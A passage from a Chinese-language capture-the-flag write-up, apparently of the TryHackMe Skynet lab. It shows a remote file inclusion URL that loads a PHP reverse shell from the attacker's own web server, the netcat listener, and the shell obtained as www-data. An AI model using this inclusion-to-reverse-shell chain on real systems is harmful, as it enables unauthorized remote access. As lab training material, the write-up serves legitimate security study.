 
    + 构造远程文件包含payload:

        ```
        http://10.10.254.152/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.61.123:8000/php-reverse-shell.php
        ```
    + 构建python web 服务及监听：

        ```
        ┌──(kali㉿kali)-[~/桌面/THM/Skynet]
        └─$ python3 -m http.server 8000          
        Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
        ```

        ```
        ┌──(kali㉿kali)-[~/桌面/THM/Skynet]
        └─$ nc -nlvp 1234                                                            
        listening on [any] 1234 ...
        ```
    + 访问构造的payload:

        ![Alt text](/style/image/image-334.png)

    + 获取目标shell:

        ```
        ┌──(kali㉿kali)-[~/桌面/THM/Skynet]
        └─$ nc -nlvp 1234                                                            
        listening on [any] 1234 ...
        connect to [10.11.61.123] from (UNKNOWN) [10.10.254.152] 46226
        Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
        09:33:04 up  2:44,  0 users,  load average: 0.00, 0.00, 0.00
        USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
        uid=33(www-data) gid=33(www-data) groups=33(www-data)
        /bin/sh: 0: can't access tty; job control turned off
        $ whoami
        www-data
        $ id
        uid=33(www-data) gid=33(www-data) groups=33(www-data)
        $ pwd
        /
        $ dir
        bin   home	      lib64	  opt	sbin  tmp      vmlinuz.old
        boot  initrd.img      lost+found  proc	snap  usr
        dev   initrd.img.old  media	  root	srv   var
        etc   lib	      mnt	  run	sys   vmlinuz
        ```
    